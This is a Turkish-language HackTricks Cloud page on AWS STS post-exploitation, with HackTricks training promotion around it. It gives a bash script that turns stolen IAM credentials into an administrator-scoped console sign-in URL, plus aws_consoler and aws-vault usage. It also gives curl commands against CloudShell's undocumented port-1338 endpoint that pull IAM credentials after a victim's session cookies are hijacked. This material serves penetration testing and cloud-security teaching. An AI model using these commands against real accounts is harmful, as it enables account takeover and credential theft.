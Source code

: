 # AWS - STS Post Exploitation

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## STS

Daha fazla bilgi için:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### IAM Kimlik Bilgilerinden Konsola

Eğer bazı IAM kimlik bilgilerini elde etmeyi başardıysanız, aşağıdaki araçları kullanarak **web konsoluna erişmek** isteyebilirsiniz.\
Kullanıcı/rolün **`sts:GetFederationToken`** iznine sahip olması gerektiğini unutmayın.

#### Özel script

Aşağıdaki script, varsayılan profili ve varsayılan bir AWS konumunu (gov ve cn değil) kullanarak size web konsoluna giriş yapmak için kullanabileceğiniz imzalı bir URL verecektir:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

[https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler) ile **bir web konsolu bağlantısı oluşturabilirsiniz**.
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
IAM kullanıcısının `sts:GetFederationToken` iznine sahip olduğundan emin olun veya varsayılacak bir rol sağlayın.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault), AWS kimlik bilgilerini güvenli bir şekilde depolamak ve bir geliştirme ortamında erişmek için kullanılan bir araçtır.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
**aws-vault** kullanarak **tarayıcı konsol oturumu** da elde edebilirsiniz.
{% endhint %}

#### Konsoldan IAM Kimlik Bilgilerine

[**Bu yazıda ilk kez keşfedildiği gibi**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), bir web konsoluna erişim sağlamayı başarırsanız (belki çerezleri çaldınız ve .aws klasörüne erişemediniz), **CloudShell** aracılığıyla o kullanıcı için bazı IAM token kimlik bilgilerini elde edebilirsiniz.

CloudShell, IAM kimlik bilgilerini **1338 numaralı portta belgelenmemiş bir uç nokta** üzerinden sunar. Kurbanın oturum çerezlerini tarayıcınıza yükledikten sonra, CloudShell'e gidip IAM kimlik bilgilerini almak için aşağıdaki komutları verebilirsiniz.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek hacking ipuçlarını paylaşın.

</details>
{% endhint %}
